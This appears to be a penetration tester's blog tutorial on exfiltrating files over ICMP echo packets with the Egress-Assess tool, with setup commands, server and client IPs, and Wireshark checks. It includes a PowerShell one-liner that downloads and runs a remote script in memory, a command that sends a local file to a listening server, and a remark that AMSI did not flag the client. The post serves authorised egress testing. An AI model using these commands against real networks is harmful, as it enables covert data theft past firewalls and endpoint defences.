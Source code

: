 ```yaml
---
title:  "ICMP Tunneling"
date:   2021-10-10 19:12:00 +0000
categories: [techniques]
tags: [windows, ICMP, Data Extraction]
---
```


I recently had a situation during an engagement where i needed to demonstrate that data could be extracted from the organisation. I wanted to exfil data without going over the internet for security as well as for ease of use duing the engagement and speed.
The VPN when connected, and as expected, didn't allow local access as all routing went through the established tunnel first. However when the tunnel was disconnected the firewall would block all TCP and UDP access but would allow ICMP traffic to local subnets.
This then led me to look into ICMP tunneling. I found various ways of gaining a reverse shell however data exfiltration was more tricky - this is where Egress Assess comes in.   
From the Github Page -> [https://github.com/FortyNorthSecurity/Egress-Assessere](https://github.com/FortyNorthSecurity/Egress-Assess)
"Egress-Assess is a tool used to test egress data detection capabilities."

Egress-Assess has many use cases for confirming if data can be extracted out of the network including HTTP, SMB, ICMP and more. It also has PowerShell and Python implementations for both server and client. This is good for us as its unliekly that we normally have PowerShell access on Windows based systems.
Another great feature is that the client doesnt require local administrative privileges to run.
During testing it was also noted that as from the time of testing amsi didnt detect the client software as malicous or blocked the traffic as suspicous.

The setup uses a tradtional client / Server design. The server does require local admin rights. My setup was a Debian 10 Box with a Windows 10 client.

* Server (Debian) - 192.168.1.50
* Client (Win 10) - 192.168.1.239


Again from the Github Page, ICMP - The data is broken up into bytes and base64 encoded and sent over the wire in an ICMP Type 8 ECHO request. the data is placed inside the data field of the packet. The ECHO requests are continuously made to the EgressAsess Server which receives the ICMP request and gathers the data and decodes it.

To start firstly, confirm that you can send and receive ICMP echo requests and Responses bi-directionally.

Once confirmed, on the server, first clone down the repository.

{% include codeHeader.html %}
```
git clone https://github.com/FortyNorthSecurity/Egress-Assess.git
```

Next run the setup.sh from within the setup folder to install the necessasary files.
Fix any errors if you get any before continuing.

```
./setup/.setup.sh
```

Next start the server with the ICMP fetaures enabled:

```
python Egress-Assess.py --server icmp --ip 192.168.1.50

```
If the server has started correctly you should see the following:
![img-description](/images/icmp-4.JPG)
_ICMP Server Started & waiting for connections_

Next you can either download the file onto the client, or run it in memory directly.

```
IEX (New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/FortyNorthSecurity/Egress-Assess/master/EgressAssess.ps1')
```

Next, you have two main options. You either user the built-in audit tools that will create dummy data to mimic sensitive information such as Social Security Numbers / Credit Cards, OR you can specify specfic custom files.

I decided to create my own very simple file to understand how it was being tranferred. I did this by creating a file with some basic text inside on the client.

```
echo "Super Secret Info to Extract" > SuperSecretData.txt
```

We specify the File we want using the "-DataType" argument. ( You could also put "-DataType cc" for CreditCard.

![img-description](/images/icmp-9.JPG)
_Sending a file though an ICMP Packet_


```
Invoke-EgressAssess -client icmp -ip 192.168.1.50 -Datatype 'C:\Videos\SuperSecretData.txt' -Verbose
```

By using the "-Verbose" argument we can see that the connection was sucessful and that the client has indicated that the file was sucessfully sent.

On the server we can see a message confirming that the file has been recieved as expected.

![img-description](/images/icmp-10.JPG)
_File Received on Server_

![img-description](/images/icmp-11.JPG)
_File Received on Server_


To confirm how this worked, we can see in Wireshark that the data is indeed base64 encoded.
![img-description](/images/icmp-12.JPG)
_Wireshark capture of base64 encoded data in an ICMP Packet_
![img-description](/images/icmp-13.JPG)
_Wireshark capture of base64 encoded data in an ICMP Packet_

Therefore if we decode the base 64 we can see our message as expected and confirm how the data was transferred.
![img-description](/images/icmp-14.JPG)


